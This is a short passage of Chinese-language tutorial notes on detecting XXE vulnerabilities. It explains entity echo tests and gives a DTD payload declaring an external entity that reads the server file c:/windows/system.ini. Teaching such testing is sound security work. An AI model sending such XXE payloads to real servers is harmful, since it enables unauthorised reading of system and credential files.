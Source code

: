     <a>&liudehua;</a>
    ```

    - 如果页面输出了实体的值说明，xml文件可以被解析
    - ![image-20220813171017274](xxe.assets/image-20220813171017274.png)

- 检测服务器是否支持DTD引用外部实体，如果支持引用外部实体，那么很有可能是存在xxe漏洞的。

    - 直接在浏览器打开test.xml文件是不支持外部实体的。

    - 直接通过DTD外部实体声明

    - ```xml-dtd
        <?xml version="1.0"?>
        <!DOCTYPE ANY [
        <!ENTITY b SYSTEM "file:///c:/windows/system.ini">
        ]>
        <c>&b;</c>
        ```
